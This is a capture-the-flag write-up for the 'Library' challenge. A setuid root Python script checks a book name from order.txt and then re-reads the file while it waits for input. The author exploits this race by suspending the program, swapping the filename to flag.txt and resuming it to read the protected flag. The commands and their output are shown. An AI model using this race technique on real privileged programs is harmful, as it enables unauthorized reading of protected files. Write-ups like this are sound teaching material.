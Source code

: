 # Library writeup
Having connected via ssh, we are near some file:

```bash
$ ls
order.txt
$ ps
    PID TTY          TIME CMD
     25 pts/0    00:00:00 bash
     30 pts/0    00:00:00 ps
```

Let's take a look at the book order:

```bash
$ order_book
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
1
-------- Books --------
  flag.txt
  lazy_boy.txt
  lorem.txt
  wealth_and_poor.txt
-----------------------
Command:
2
There is no such book.
Command:
q
توديع - فراق! أتمنى لك يوما جميلا! Goodbye! Have a nice day! (Please press Ctrl+C)
```

Some CLI that can give us book we want. Name of the desired book has to be stored in **~/order.txt**. Example of the book order:

```bash
$ echo "lorem.txt" > order.txt
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
Want to proceed? [y/n]:y
---- Book contents ----
Lorem ipsum dolor sit amet, consectetur adipiscing elit. Maecenas eu nisl massa. Suspendisse tristique placerat hendrerit. Nunc tempus felis mi, ac sodales nisi tristique eleifend. Phasellus condimentum mattis lectus et posuere. Ut mattis, velit eget dapibus egestas, odio ligula bibendum metus, vel pretium tortor tellus auctor odio. Aliquam venenatis mauris varius vulputate rhoncus. Integer ultrices ut erat id imperdiet. Etiam ipsum nisl, tincidunt id lobortis non, pellentesque et ipsum. Suspendisse mattis enim vulputate, finibus massa a, auctor ligula.

Sed laoreet tincidunt lectus quis ornare. Ut vestibulum mauris nibh, eget sollicitudin odio ornare non. Cras ac accumsan lectus. Morbi ultrices erat at vulputate congue. Mauris ac mi dictum, gravida nibh quis, lobortis ipsum. Nulla facilisi. Vivamus dignissim, nunc sit amet elementum maximus, metus justo efficitur quam, ut euismod nisl libero eget tellus. Phasellus a arcu eget lectus egestas venenatis. Integer vestibulum tellus mollis massa sagittis, venenatis venenatis ex tincidunt. In eu fermentum turpis. Aliquam ornare malesuada posuere. Fusce interdum laoreet velit vel luctus. Suspendisse non risus id est dignissim dapibus. In hac habitasse platea dictumst. Nunc at turpis nunc. Pellentesque imperdiet nisi in odio vulputate, at porta dolor bibendum.

Donec augue nulla, mollis sit amet tellus id, blandit convallis dolor. Quisque dapibus massa ac commodo porttitor. Quisque vulputate turpis in consequat maximus. In pharetra quam vel magna euismod eleifend. Phasellus a felis justo. Mauris vitae sodales sem. Curabitur eleifend orci in finibus mattis. Ut volutpat est id commodo vulputate. Nam bibendum arcu ut eros tempor scelerisque. Donec sodales scelerisque justo a feugiat. Pellentesque habitant morbi tristique senectus et netus et malesuada fames ac turpis egestas. Donec convallis, nisi a rhoncus sodales, sem justo feugiat lacus, vitae consequat lacus diam a magna. Nunc blandit non sem eget consequat. Suspendisse commodo sapien ligula, at bibendum nisl finibus sit amet. Fusce quis odio et ipsum suscipit tristique vitae at mi. Vestibulum vitae magna sit amet mauris auctor facilisis.

Interdum et malesuada fames ac ante ipsum primis in faucibus. Sed hendrerit felis quis nulla mattis porta. Nunc malesuada erat ac nunc egestas pulvinar. Morbi sed dui efficitur, lacinia risus sed, tempor nisi. Donec elementum at arcu in sollicitudin. Cras elementum elit ut massa consequat, quis aliquet sem efficitur. Integer quis aliquam augue, non commodo turpis.

Phasellus hendrerit lacus quis magna efficitur, a dapibus dui aliquet. Fusce eget leo nec velit imperdiet blandit non at dui. Maecenas pulvinar felis at porttitor vehicula. Quisque mollis semper odio, et fringilla lorem rutrum eget. Mauris molestie tempor ipsum, id fringilla ex vestibulum vel. Cras et nunc eros. Etiam ut bibendum sapien, id pharetra ante. Vestibulum ante ipsum primis in faucibus orci luctus et ultrices posuere cubilia curae; 

-----------------------
```

Ok, it works in the way it purposed. Is this challenge only about reading **flag.txt** via some cli lol?

```bash
$ echo "flag.txt" > order.txt
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
That seems like f0rb1dd3n literature. It's strictly prohibited in the Library.
```

No. Time for analysis. Firstly, we should find the `order_book`...

```bash
$ which order_book
/usr/bin/order_book
```

... download it to local machine...

```bash
$ scp -rP 21009 visitor14@ctf.li2sites.ru:/usr/bin/order_book .
visitor2@ctf.li2sites.ru's password: 
order_book
```

... and look at it in disassembler:

```C
int main(int argc, const char **argv, const char **envp) {
  setuid(0);
  system("/usr/local/share/order_book.py");
  return 0;
}
```

This program just escalates itself to the root and runs some python script. Now back to the server, to the [script](deploy/service/order_book.py) mentioned above. `main()`:

```python
def main():
    global books
    books = os.listdir(LIBDIR)
    updater = threading.Thread(target=update_book_to_read,)
    updater.start()

    banner()
    logic()
    print("توديع - فراق! أتمنى لك يوما جميلا! Goodbye! Have a nice day! (Please press Ctrl+C)")
```

**LIBDIR** = "**/books/**". It means that book files are stored there. However, we can't just read them, beacause they belong to root and other users don't have read permissions:

```bash
$ ls -lah /books/
total 36K
drwxr-xr-x 1 root root 4.0K Nov 29 21:53 .
drwxr-xr-x 1 root root 4.0K Nov 29 21:53 ..
-r-------- 1 root root  122 Nov 29 21:35 flag.txt
-r-------- 1 root root 3.2K Nov 29 21:35 lazy_boy.txt
-r-------- 1 root root 3.0K Nov 29 21:35 lorem.txt
-r-------- 1 root root 2.1K Nov 29 21:35 wealth_and_poor.txt

```

Back to the python script. The most interesting part of it is the thread creation for `update_book_to_read()` function. Here is it:

```python
def update_book_to_read():
    global book_to_order
    try:
        while True:
            f = open("order.txt", "r")
            book_to_order = f.read().strip()
            f.close()
            sleep(1)
    except FileNotFoundError:
        print("order.txt is not found by librarian.")
        os._exit(-1)
```

Once a second it updates **book_to_order**, writing contents of the **order.txt** into it. This variable is used here:

```python
def order_book():
    global book_to_order
    
    try:
        assert book_to_order in books
    except AssertionError:
        print("There is no such book.")
        return

    if "flag" in book_to_order: 
        print("That seems like f0rb1dd3n literature. It's strictly prohibited in the Library.")
    else:
        ans = input("Want to proceed? [y/n]:")
        if ans != "y":
            return
        try:
            f = open(LIBDIR + book_to_order)
        except FileNotFoundError:
            print("There is no such book.")
            return
        data = f.read()

        print("---- Book contents ----")
        print(data)
        print("-----------------------")
        f.close()
```

That is a function of book reading, calling by "2" in the CLI. It reads the desired book name from **order.txt**, and prints its contents. But there are several conditions:

1. This file exists in `/books/`
2. There is no `flag.txt` in filename
3. File exists

And it is actually impossible to avoid this protection because of the file permissions - we can only manipulate **order.txt**.,

Summarazing everyhing said before, `update_book_to_read()` updates the **book_to_order** variable every second, and `order_book()` reads this variable. Therefore, our order is updated while program is running (interactively), which means that the variable **book_to_order** may store different values _through **one** `order_book()` call_. Additionally, there is an `input()` between anti-flag validation, which gives us an unlimited delay. That is a **data race**.

Here is the plan:
1. Write some allowed book to **order.txt**
2. Run **order_book**
3. Order a book (passing all the checks, because the book we order is not a flag), but don't press "y", stop the program (Ctrl+Z)
4. Write "flag.txt" to **order.txt**
5. Carry on the execution of **order_book** (using `fg` command)
6. Wait one second, `update_book_to_read()` updates **book_to_order** variable
7. Hit "y", **order_book** reads a file with filename stored in the **book_to_order** variable, => reads **flag.txt**

```bash
$ # step 1
$ echo "lorem.txt" > order.txt
$ # step 2-3
$ order_book 
⚸✤◔ Welcome to the Library ◕✤⚸
Сhoose the book you want to order and write it in order.txt, our librarian will keep your desire up-to-date (but please don't try to get forbidden literature, it's strictly prohibited).
Commands:
   1 - print list of all the books
   2 - order the book (please provide the name in the 'order.txt')
   q - quit
Command:
2
Want to proceed? [y/n]:^Z
[1]+  Stopped                 order_book
$ # step 4
$ echo "flag.txt" > order.txt 
$ # step 5-7
$ fg
order_book
y
---- Book contents ----
You managed to find a treasure of the Libray. Nice job you did!

li2CTF{b00K_15_m0R3_v4lu4bl3_7H4n_a_G0ld,__1_gu355_y0u_4gr33}

-----------------------
```

Flag: `li2CTF{b00K_15_m0R3_v4lu4bl3_7H4n_a_G0ld,__1_gu355_y0u_4gr33}`
